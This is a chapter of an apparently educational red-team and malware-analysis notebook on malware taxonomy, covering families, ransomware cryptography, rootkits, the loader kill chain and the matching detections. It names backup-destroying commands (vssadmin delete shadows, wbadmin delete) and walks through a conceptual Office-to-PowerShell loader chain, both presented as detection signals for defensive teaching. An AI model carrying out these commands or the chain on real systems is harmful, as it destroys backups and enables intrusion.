










**Level:** Advanced · **Track:** Red Team · **Read time:** 185 min

This is Chapter 1 of the Malware & Evasion notebook. The Social Engineering series that preceded it ended on defense; this notebook opens on the thing social engineering so often exists to *deliver* — malicious software — and it opens, correctly, with taxonomy. Before you can build a payload in a lab (the next chapter), reason about how it evades antivirus (Chapter 3), or detect it as a defender, you need a precise vocabulary for what malware *is*, how families differ, and how they combine. This chapter builds that vocabulary from the ground up.

A word on framing that governs this entire notebook. Everything here is written for **authorized red-team work, malware analysis, and defense**, and this first chapter is almost entirely conceptual — it contains **no working malicious code**. Its job is to give you an accurate mental model of the ecosystem: the families, their mechanics, their relationships, and the telemetry each one generates. Later chapters that touch payload construction stay strictly lab-scoped, use benign or defanged samples, and exist so that defenders and authorized operators understand what they are up against. Writing, deploying, or distributing real malware against systems you do not own or have written authorization to test is a serious crime in every jurisdiction — the point of learning this is to defend against it and to conduct sanctioned assessments, nothing else.

We move from first principles — what makes software "malware" and the axes we classify it on — through each major family in mechanical detail, then to the modern **modular kill chain** that shows how a loader, a stealer, a C2 implant, and a ransomware module cooperate in a real intrusion, and finish with a defender's map of detection opportunities, a hands-on *analysis* lab on a benign sample, a cheat sheet, and practice resources.

## Why This Matters

Malware taxonomy sounds like rote memorization — "a worm self-propagates, a trojan pretends to be legitimate" — and taught badly, it is. Taught well, it is the single most useful lens a defender or analyst has, because **the family determines the telemetry, the detection, and the response.** If you can correctly classify what you're looking at, you already know where to hunt for it and how to contain it:

- A **worm** implies lateral, network-driven spread — so your response is network segmentation and patching, and your detection is anomalous internal connections, not just endpoint scanning.
- A **RAT** implies interactive command-and-control — so you hunt for beaconing and unusual outbound connections, and containment means killing the C2 channel.
- **Ransomware** implies mass file modification and shadow-copy deletion — so detection is high-rate file writes and `vssadmin`/`wbadmin` abuse, and preparation is offline, immutable backups.
- A **rootkit** implies stealth at or below the OS boundary — so you cannot trust the compromised host's own tools and must analyze from outside (memory forensics, offline disk).

The other reason taxonomy matters now is that the neat single-purpose categories of the past have dissolved into a **modular, commoditized ecosystem**. Modern intrusions rarely involve one monolithic "virus." Instead a phishing email drops a small *loader*, which pulls a *stealer* to grab credentials and a *C2 implant* for hands-on control, which is later used to deploy *ransomware* — often with each stage bought as a service from a different criminal specialist. Understanding the taxonomy is what lets you recognize *which stage you're seeing* and predict what comes next. The families are the alphabet; the kill chain (Part 11) is the language.

## Part 1: What Makes Software "Malware"? First Principles

"Malware" — malicious software — is defined by **intent and lack of authorization**, not by any technical property. The exact same capability can be a legitimate administration tool or a weapon depending on who deployed it and why. A remote-desktop tool your IT department installs is administration; the identical capability installed by an intruder is a RAT. `PsExec` is a Sysinternals admin utility and a favorite lateral-movement tool. This is the **dual-use** reality that runs through the whole notebook, and it is exactly why detection is hard: defenders cannot simply blocklist "remote control" or "encryption," because legitimate software does those things constantly.

That said, malware tends to exhibit a recurring set of *technical behaviors* that, in combination and out of context, betray it. These behaviors are the vocabulary the rest of this chapter refines:

- **Execution** — getting code to run, often by tricking a user (social engineering) or abusing a vulnerability.
- **Persistence** — surviving reboots and logoffs via autostart mechanisms (registry Run keys, scheduled tasks, services, startup folders, `cron`, systemd units).
- **Privilege escalation** — moving from a normal user's rights to administrator/root/SYSTEM to gain full control.
- **Defense evasion** — hiding from AV/EDR, users, and analysts (obfuscation, packing, rootkit stealth, living-off-the-land).
- **Command and control (C2)** — receiving instructions and exfiltrating data over a network channel.
- **Actions on objective** — the actual goal: steal data, encrypt for ransom, mine cryptocurrency, spy, destroy, or pivot deeper.

These map directly onto the **MITRE ATT&CK** tactic columns, and that is not a coincidence — ATT&CK is essentially a behavioral taxonomy of what malware and intruders do. Throughout this chapter we tie families to ATT&CK techniques, because "this is a keylogger" and "this exhibits T1056.001 Input Capture" are two views of the same fact, and the second is the one your SIEM understands.



**Blue team usage:** internalize that no single behavior is proof of malice — persistence, remote control, and encryption all have legitimate uses. Detection is about *anomalous combinations in context*: a document viewer that spawns a script interpreter that opens a network connection and writes a registry Run key is not doing anything individually forbidden, but the *chain* is almost never benign. The families below are, in a sense, just named, common chains.

## Part 2: The Classification Axes

There is no single "correct" malware taxonomy because families can be sorted along several independent axes, and any real sample occupies a point in *all* of them at once. The common mistake is to treat "virus / worm / trojan / ransomware / rootkit" as one flat list of mutually exclusive categories. They are not — they answer *different questions*. Four axes matter most:

**Axis 1 — Propagation (how it spreads).** This distinguishes the classic trio:
- **Virus** — infects a host file or program and spreads when that infected object is executed/opened by a user; requires a carrier and (usually) human action.
- **Worm** — self-propagates across a network with no user action, exploiting vulnerabilities or weak credentials.
- **Trojan** — does not self-spread at all; it relies on *disguise* to get a human to run it, masquerading as legitimate software.

**Axis 2 — Purpose (what it's for).** Ransomware, spyware/infostealer, RAT, banking trojan, wiper, cryptominer, adware, rootkit-for-stealth, botnet-node. A single binary can serve multiple purposes.

**Axis 3 — Privilege / residence (where it lives).** User-mode vs. kernel-mode vs. firmware/bootkit; on-disk vs. fileless/in-memory. This axis determines how stealthy it is and how hard it is to detect and remove.

**Axis 4 — Architecture (how it's built).** Monolithic (one self-contained binary) vs. modular/staged (a small loader that pulls further components). Modern crimeware is overwhelmingly modular.

| Axis | Question it answers | Example values |
|---|---|---|
| Propagation | How does it spread? | Virus, worm, trojan, none (dropped) |
| Purpose | What does it do? | Ransomware, RAT, stealer, wiper, miner, botnet |
| Privilege/residence | Where does it run? | User-mode, kernel rootkit, bootkit, fileless |
| Architecture | How is it structured? | Monolithic, modular, staged (loader→payload) |

The payoff of thinking in axes: a real sample is described by naming a value on *each* — e.g., "a **trojan** (propagation) that is a **RAT** (purpose), runs **user-mode, fileless** (residence), delivered by a **staged loader** (architecture)." That one sentence tells a responder almost everything about how to find and kill it. The rest of the chapter walks the important values on each axis.



## Part 3: Viruses and Worms — the Self-Replicators

**Viruses** are the oldest named category and today the *least* common in the classic sense, but the mechanics matter because the vocabulary persists. A file-infecting virus attaches its code to a host object — an executable, a document with macros, a boot sector — so that when the host runs, the virus runs first (or alongside) and then infects further objects. Key sub-mechanics:

- **Appending/prepending/cavity infection** — where in the host file the viral code is inserted (end, start, or unused gaps), adjusting the entry point so the virus executes.
- **Macro viruses** — live in the macro/scripting layer of documents (Office VBA); they were the dominant form for years and remain relevant because malicious documents are a top delivery vector (see Social Engineering Chapter 7).
- **Polymorphic and metamorphic viruses** — mutate their own code on each infection (polymorphic: encrypt the body with a changing key and a mutating decryptor; metamorphic: rewrite their own instructions) specifically to defeat signature detection. This is the historical root of the evasion techniques in Chapter 3.

**Worms** removed the human from propagation and, as a result, produced the most explosive incidents in history. A worm carries its own spreading mechanism — scanning for vulnerable hosts and exploiting them, or spraying stolen/weak credentials — and copies itself onward automatically. Because spread is automatic, worms achieve exponential growth and can saturate a network in minutes.

| Aspect | Virus | Worm |
|---|---|---|
| Needs a host file? | Yes | No (standalone) |
| Needs user action to spread? | Usually yes | No |
| Spread mechanism | Infected file execution | Network exploit / credential spray |
| Speed | Human-paced | Exponential, machine-paced |
| Classic examples | Macro viruses, file infectors | Network-service exploiters, USB/SMB worms |
| Modern relevance | Malicious macros as delivery | Ransomware with worm-like spread |

The historically important lesson lives in **worm-capable ransomware**: the most damaging ransomware outbreaks combined a ransomware payload with a *worm* propagation mechanism (exploiting a network vulnerability to self-spread), which is why they crippled entire organizations in hours rather than encrypting one machine. This is the taxonomy in action — the *purpose* was ransomware, but the *propagation axis* (worm) is what made it catastrophic.

Macro viruses deserve a closer look because malicious Office documents remain a top delivery vector. The mechanics: a document carries VBA (Visual Basic for Applications) code in an auto-executing routine (`AutoOpen`, `Document_Open`, `Workbook_Open`) that runs the moment the user enables content. That macro rarely does damage itself — it is a *loader* (Part 7) that reaches out to fetch the real payload, tying the oldest category to the newest tactic. This is exactly why the single most valuable Office hardening step is **blocking macros from the internet by default** (mark-of-the-web enforcement) and why the top behavioral detection is Office spawning a script/interpreter child. Attackers responded to macro-blocking by shifting to container files (ISO/LNK/HTML-smuggling), which is the delivery arms race in miniature.

**Blue team usage:** worm behavior has an unmistakable network signature — one internal host suddenly initiating connections to many peers on a service port (SMB, RDP, RPC), often to hosts it has never talked to. Detection is at the network layer (east-west traffic anomalies, honeypots, segmentation that limits blast radius), not just the endpoint. For viruses/macros, the detection is the delivery chain: a document process spawning a script interpreter (Office → `wscript`/`powershell`), which is one of the highest-value single detections in existence.

## Part 4: Trojans and RATs — Disguise and Remote Control

A **trojan** (Trojan horse) is defined purely by its *delivery deception*: it does not self-replicate; it convinces a human to run it by pretending to be something desirable or legitimate — a cracked game, a fake installer, a document, a "codec," a job-offer attachment. Because it relies on disguise rather than exploitation, the trojan is the natural payload for social engineering, and the two notebooks meet exactly here. Trojans are a *delivery* category; what they *do* once run is any purpose from the Axis-2 list.

Common trojan sub-types by purpose:

- **Backdoor trojan** — opens covert access for the attacker to return.
- **Banking trojan** — specializes in stealing financial credentials, often via web-injects that modify banking sites in the browser.
- **Downloader/dropper trojan** — its whole job is to fetch and run the *next* stage (this overlaps with loaders, Part 7).
- **RAT (Remote Access Trojan)** — the interactive remote-control category, important enough to treat on its own.

A **RAT** gives the operator hands-on-keyboard control of the victim machine: file browsing and transfer, screen capture, keylogging, webcam/microphone access, shell command execution, and pivoting. Architecturally a RAT is a **client/server** system — but with the roles *inverted* from how you'd expect: the **implant on the victim** connects *outbound* to the **attacker's C2 server**, because outbound connections punch through NAT and most firewalls where inbound ones would be blocked. The operator's console instructs many implants at once.



The defining behavioral tell of a RAT is **beaconing**: the implant periodically checks in with C2 on an interval (often randomized/"jittered" to avoid a clockwork pattern), producing a low-and-slow drumbeat of outbound connections to the same destination. This is the single most important C2 detection concept in the notebook, and Chapter 2 of the Red Team Operations notebook builds on it directly.

| Trojan/RAT capability | ATT&CK-style behavior | Detection opportunity |
|---|---|---|
| Remote shell | Command execution | Anomalous parent→child process, C2 beacon |
| Keylogging | Input capture | Hooks/API use; often paired with C2 exfil |
| Screen/webcam capture | Screen/video capture | Unusual API use, data-staging files |
| File transfer / exfil | Exfiltration over C2 | Outbound volume, connection to rare destination |
| Beaconing check-in | Application-layer C2 | Periodic, jittered connections to one host |

**Red team usage (lab-scoped):** authorized engagements use *legitimate, well-known* C2 frameworks (e.g., a licensed Cobalt Strike, or open-source Sliger/Mythic/Havoc in a lab) precisely to emulate RAT tradecraft so defenders can practice detecting beaconing and hands-on-keyboard activity. The value to the blue team is calibration — "can we see our own red team's implant?" — never uncontrolled deployment.

## Part 5: Ransomware — Encryption and Extortion

**Ransomware** is malware whose *purpose* is extortion, classically by encrypting the victim's files and demanding payment for the decryption key. It is worth deep treatment because it is the most economically damaging category and because its mechanics are precise and detectable.

The technical core is a **hybrid cryptosystem**, and understanding it explains both why paying is sometimes the only recovery path and where the defenses are:

1. The ransomware generates a **symmetric key** (e.g., AES) per file or per victim — fast bulk encryption.
2. It encrypts files with that symmetric key.
3. It then encrypts the *symmetric key* with the attacker's **public key** (RSA/ECC) — the private key never leaves the attacker.
4. The victim ends up with encrypted files and an encrypted key blob they cannot open without the attacker's private key.

This hybrid design (fast symmetric bulk + asymmetric key protection) is the same PKI you learned in the Cryptography notebook, weaponized. Poorly written ransomware sometimes reuses keys, uses a broken PRNG, or leaves keys in memory — which is why free decryptors occasionally exist — but well-built ransomware is cryptographically unrecoverable, making **backups the only reliable defense.**

Modern ransomware added two escalations:

- **Double extortion** — data is *exfiltrated before* encryption, so even a victim with perfect backups is threatened with public leak of stolen data. Backups defeat the encryption but not the leak. This changed ransomware from an availability problem into a confidentiality breach.
- **Ransomware-as-a-Service (RaaS)** — the developers rent the malware and infrastructure to "affiliates" who carry out intrusions, splitting proceeds. This commoditization is why the volume is so high and why intrusions are increasingly hands-on-keyboard rather than spray-and-pray.

The typical **attack lifecycle** is not "click and instantly encrypt" — it's a multi-day, human-driven intrusion where encryption is the *final* step:



The pre-encryption steps are where defense wins, because encryption itself is fast and hard to interrupt once launched. Specific high-value detections: **shadow-copy and backup deletion** (`vssadmin delete shadows`, `wbadmin delete`, `bcdedit` recovery tampering), **mass rapid file modification** with rising entropy (plaintext → ciphertext looks like random data), and the *lateral movement and credential theft* that precede it (which is why the AD and privilege-escalation notebooks are ransomware-defense content).

| Ransomware stage | Signal | Defensive control |
|---|---|---|
| Initial access | Phish, exposed RDP, unpatched vuln | Email defense, MFA, patching, no exposed RDP |
| Recon / lateral | Credential dumping, admin logons | EDR, least privilege, tiering, LAPS |
| Backup destruction | `vssadmin`/`wbadmin`/`bcdedit` abuse | Alert on these; offline/immutable backups |
| Mass encryption | High-rate writes, entropy spike, ext changes | Canary files, behavioral EDR, rate limits |
| Extortion | Ransom note, leak-site listing | IR plan, comms plan, do-not-pay guidance |

A cheap, high-signal detection worth understanding is the **canary (decoy) file**: plant attractive-looking documents (`Payroll_2027.xlsx`, `passwords.docx`) in monitored locations that no legitimate process should ever touch, and alert the instant one is modified or its handle is opened for write. Because ransomware encrypts *everything* it enumerates, it hits the canaries early — often within the first second — giving you a trigger to auto-isolate the host before most real files are lost. The same idea scales to file-server **File Server Resource Manager** screens and EDR rules that watch for a single process opening and rewriting many files across directories in a short window.

```
Canary alert logic (conceptual):
  IF process P writes/modifies file in {canary_set}
     OR process P modifies > N files/sec across > M directories
  THEN alert HIGH + auto-isolate host P is running on
```

**Blue team usage:** the reason "offline, immutable, tested backups" is the drum every defender beats is that it is the *only* control that fully defeats the encryption half of the threat — and it must be **offline/immutable** precisely because attackers now hunt and delete online backups as a deliberate pre-encryption step. Pair it with detections for backup-deletion commands and canary files (decoy documents whose modification triggers an immediate alert and host isolation).

## Part 6: Rootkits and Bootkits — Stealth at the Boundary

A **rootkit** is not defined by what it steals but by *how it hides* — it is malware engineered to conceal its own presence (and often other malware's) by subverting the system at a deep level, so that the operating system's own tools report a false, clean picture. The name comes from Unix "root" + "kit": a kit for retaining root-level stealth. Rootkits are classified by the layer they operate at, and the layer determines how invisible and how dangerous they are:

- **User-mode rootkits** hook or patch API calls in user space (e.g., intercept the functions that list processes/files) to hide artifacts from applications. Easiest to build, easiest to detect, because a lower-level view still sees the truth.
- **Kernel-mode rootkits** run in ring 0 with the OS itself — hooking the system call table, manipulating kernel objects (direct kernel object manipulation, e.g., unlinking a process from the active-process list so it doesn't appear), or loading as a malicious driver. Far stealthier and far more dangerous: at this level the malware can lie to *everything*, including most security tools, and can disable defenses. Modern OSes fight back with driver signature enforcement, PatchGuard/kernel patch protection, and HVCI, which is why attackers resort to **BYOVD (Bring Your Own Vulnerable Driver)** — loading a legitimately-signed but vulnerable driver and exploiting it to gain kernel execution.
- **Bootkits** infect the boot process *below* the OS — the MBR/VBR or, on modern systems, the UEFI firmware — so the rootkit loads *before* the operating system and its protections. A firmware/UEFI bootkit can even survive OS reinstalls and disk replacement. These are the apex of stealth and persistence.



The critical defensive principle rootkits teach is **you cannot trust a compromised system to report on itself.** If a kernel rootkit is hiding a process, `Task Manager`, `tasklist`, and even many EDR agents running on that host may be lied to. Reliable detection must come from *outside or below* the malware's control:

- **Memory forensics** — capture RAM and analyze it offline (e.g., Volatility), comparing the kernel's internal structures against what the live OS reports; discrepancies ("hidden" processes/drivers) reveal the rootkit.
- **Offline disk analysis** — examine the disk from a known-good boot environment.
- **Hardware/firmware root of trust** — **Secure Boot**, **Measured Boot**, and **TPM attestation** verify the boot chain cryptographically so a bootkit that alters an early stage is detected before the OS trusts it.
- **Cross-view detection** — compare a high-level API listing against a low-level enumeration; anything present in one but hidden from the other is suspect.

| Rootkit layer | Stealth | Survives OS reinstall? | Primary detection |
|---|---|---|---|
| User-mode | Low | No | Lower-level enumeration, EDR |
| Kernel-mode | High | No (usually) | Memory forensics, driver auditing, HVCI/PatchGuard |
| Bootkit (MBR/VBR) | High | Sometimes | Secure/Measured Boot, disk forensics |
| UEFI/firmware | Extreme | **Yes** | Firmware attestation, TPM, vendor tooling |

**Blue team usage:** enforce **Secure Boot + TPM + HVCI/memory integrity** and **driver blocklists** (to blunt BYOVD) as baseline host hardening — these raise the floor so kernel/boot-level compromise requires far more capability. For response, assume that any host suspected of kernel-level compromise cannot be triaged with its own tools; pull memory and disk images for external analysis, and for firmware-level suspicion, treat the hardware as untrustworthy.

## Part 7: Loaders, Droppers, Stagers — the Delivery Tier

This tier is where classic taxonomy meets modern reality, and it's the most important part of the chapter for understanding today's intrusions. The heavy, obvious payload almost never arrives directly anymore; instead a small, innocuous-looking first-stage component establishes a foothold and *fetches the rest*. Precise terms, because they're often used loosely:

- **Dropper** — contains the next-stage payload *embedded inside itself* and writes ("drops") it to disk, then executes it. Self-contained; no network needed to obtain the payload.
- **Downloader** — contains no payload; it *reaches out over the network* to download the next stage. Smaller and stealthier at rest (nothing malicious is embedded to be scanned), but requires connectivity.
- **Loader** — a component whose job is to *load and execute* a payload, frequently **into memory** without ever writing the full payload to disk (reflective loading), which is a core evasion technique (Chapter 4). "Loader" is the umbrella term the criminal ecosystem uses for these first-stage foothold tools.
- **Stager** — a minimal first-stage (often just enough code to pull and run a larger "stage 2," like a full C2 implant). C2 frameworks distinguish *staged* payloads (tiny stager → download full agent) from *stageless* (the whole agent in one blob).

Why the ecosystem went modular is pure economics and evasion:

- **Small first stages evade better** — a tiny downloader has little malicious content to signature, and can be swapped/re-packed cheaply when detection catches up.
- **Separation of concerns and markets** — "loader-as-a-service" and "initial-access brokers" sell footholds; other criminals buy them to deliver stealers or ransomware. The loader author and the ransomware author are often different businesses.
- **Late binding of payload** — the operator decides *after* landing what to deliver (stealer? C2? miner?) based on how valuable the victim is, so the same loader population feeds many outcomes.



| Term | Payload location | Needs network? | Key trait |
|---|---|---|---|
| Dropper | Embedded in itself | No | Writes payload to disk |
| Downloader | Remote | Yes | Fetches payload; small at rest |
| Loader | Either | Often | Executes payload, often in-memory |
| Stager | Remote (stage 2) | Yes | Minimal; pulls the full agent |

A representative loader chain, stage by stage, shows why each hop is a detection chance even when the payload is brand-new:

```
1. User opens invoice.docx (or a .lnk/.iso/.hta - archive/container tricks bypass mark-of-the-web)
2. Document/script runs -> spawns powershell.exe or wscript.exe        [Office->script lineage]
3. Downloader fetches stage2 from a rare/newly-registered domain        [rare outbound]
4. Loader reflectively maps stage2 into memory (no full file on disk)   [in-memory, evasion]
5. Stage2 (C2 implant) writes a Run key / scheduled task for persistence [autostart]
6. Implant begins jittered beaconing                                     [C2 beacon]
```

Modern loaders increasingly arrive inside **ISO/IMG/ZIP containers or .lnk files** specifically to strip the "mark-of-the-web" that would otherwise warn the user and trigger extra scanning — a delivery-tier evasion worth recognizing. Each numbered step is independently detectable, which is the whole point: the defender doesn't need to recognize the *family*, only the *chain*.

